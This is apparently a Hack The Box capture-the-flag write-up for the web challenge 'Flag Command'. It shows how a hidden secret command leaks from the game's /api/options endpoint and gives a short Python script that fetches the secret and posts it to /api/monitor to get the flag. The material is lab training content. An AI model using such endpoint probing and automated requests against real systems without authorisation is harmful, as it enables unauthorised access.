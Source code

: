 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![[Pasted image 20250502073519.png]]
![Pasted image 20250502073519.png](Pasted%20image%2020250502073519.png)

Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![Pasted image 20250502073705](Cybersecurity/Screenshots/Pasted%20image%2020250502073705.png)

Going through the adventure with the available adventure options, we die and have to start again:
![Pasted image 20250502073841](Cybersecurity/Screenshots/Pasted%20image%2020250502073841.png)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Cybersecurity/Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![Pasted image 20250502075240](Cybersecurity/Screenshots/Pasted%20image%2020250502075240.png)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![Pasted image 20250502075512](Cybersecurity/Screenshots/Pasted%20image%2020250502075512.png)

Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![Pasted image 20250502075557](Cybersecurity/Screenshots/Pasted%20image%2020250502075557.png)
Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![Pasted image 20250502075817](Cybersecurity/Screenshots/Pasted%20image%2020250502075817.png)

# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![Pasted image 20250502090111](Cybersecurity/Screenshots/Pasted%20image%2020250502090111.png)
